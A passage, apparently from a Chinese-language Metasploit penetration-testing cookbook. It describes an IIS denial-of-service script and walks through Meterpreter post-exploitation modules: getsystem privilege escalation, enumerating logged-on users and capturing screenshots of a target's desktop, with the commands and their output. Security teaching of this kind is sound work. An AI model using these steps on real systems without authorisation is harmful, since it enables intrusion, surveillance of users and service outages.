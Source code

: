 ```
next
end
end 
```

如您所见，脚本生成了超过 40000 的有效负载大小。然后，在端口 80 上建立连接，向 IIS 服务器发送 HTTP 请求。一旦服务器渲染了请求，它将崩溃并停止工作，除非重新启动。

# 后期利用模块

到目前为止，我们已经在后渗透阶段使用了 meterpreter 的各种功能。然而，我们还有一个单独的专用模块列表，可以增强我们的渗透测试体验。由于它们是后渗透模块，我们将需要与目标建立一个活动会话。我们可以使用前几章描述的任何方法来访问我们的目标。

## 准备工作

后模块是一组最有趣和方便的功能的集合，您可以在渗透测试中使用。让我们快速分析其中一些。在这里，我们使用一个未打补丁的 Windows 7 机器作为我们的目标，并且有一个活动的 meterpreter 会话。

## 如何做...

您可以在`modules/post/windows/gather`中找到后模块。让我们从一个简单的`enum_logged_on_users`模块开始。这个后模块将列出 Windows 机器中当前登录的用户。

我们将通过我们的活动 meterpreter 会话执行模块。还要记住使用`getsystem`命令提升权限，以避免在执行模块时出现任何错误。

```
meterpreter > getsystem
...got system (via technique 4).
meterpreter > run post/windows/gather/enum_logged_on_users
[*] Running against session 1
Current Logged Users
====================
SID User
--- ----
S-1-5-21-2350281388-457184790-407941598 DARKLORD-PC\DARKLORD
Recently Logged Users
=====================
SID Profile Path
--- ------------
S-1-5-18 %systemroot%\system32\config\systemprofile
S-1-5-19 C:\Windows\ServiceProfiles\LocalService
S-1-5-20 C:\Windows\ServiceProfiles\NetworkService
S-1-5-21-23502 C:\Users\DARKLORD
S-1-5-21-235 C:\Users\Winuser 
```

模块的成功执行向我们展示了两个表。第一个表反映了当前登录的用户，第二个表反映了最近登录的用户。在执行模块时，请遵循正确的路径。我们使用`run`命令来执行模块，因为它们都是以 Ruby 脚本的形式存在，所以 meterpreter 可以轻松识别它。

让我们再举一个例子。有一个有趣的后模块可以捕获目标桌面的截图。当我们需要知道是否有任何活动用户时，这个模块就会很有用。我们将使用的模块是`screen_spy.rb:`

```
meterpreter > run post/windows/gather/screen_spy
[*] Migrating to explorer.exe pid: 1104
[*] Migration successful
[*] Capturing 60 screenshots with a delay of 5 seconds 
```
